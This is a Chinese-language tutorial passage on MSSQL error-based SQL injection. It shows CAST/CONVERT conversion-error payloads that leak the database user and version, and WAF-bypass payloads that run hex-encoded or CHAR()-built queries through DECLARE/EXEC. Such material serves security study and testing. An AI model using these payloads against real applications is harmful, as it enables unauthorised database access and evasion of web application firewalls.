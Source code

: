 # 0x00 简介

在上一章我们已经了解到了报错注入，其实MSSQL报错注入利用的就是显示或隐式转换来报错注入,比如以下就是典型的隐式转换

```
select * from admin where id =1 and (select user)>0--

select * from admin where id =1|(select user)--

在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。

```

显示转换也就是利用函数来转换，我们经常用到的两个函数就是cast和convert

```
CAST( expression AS data_type )

CONVERT(data_type[(length)], expression [, style])

```

```
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))

```



# 0x01 简单绕过注入

因为在前面一章我已经写过一些简单的报错注入了，所以这里引进一个`declare` 函数，他是mssql声明局部变量的函数，我们经常用它来绕过waf对一些关键词的拦截

```
select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --

```

declare定义变量 set设置变量值 exec执行变量


变量的值是支持hex和ascii码的,当过滤引号我们就可以这么用 把我们的语句编码一下

```
select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--

select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--

```


![mysql](./img/1.5.1.png)


如果你绕过了declare 那么waf基本没啥用了，这里如果你用hackbar的话记得把加号url编码。


#  0x02 文末


#### 本文如有错误，请及时提醒，避免误导他人


BY 404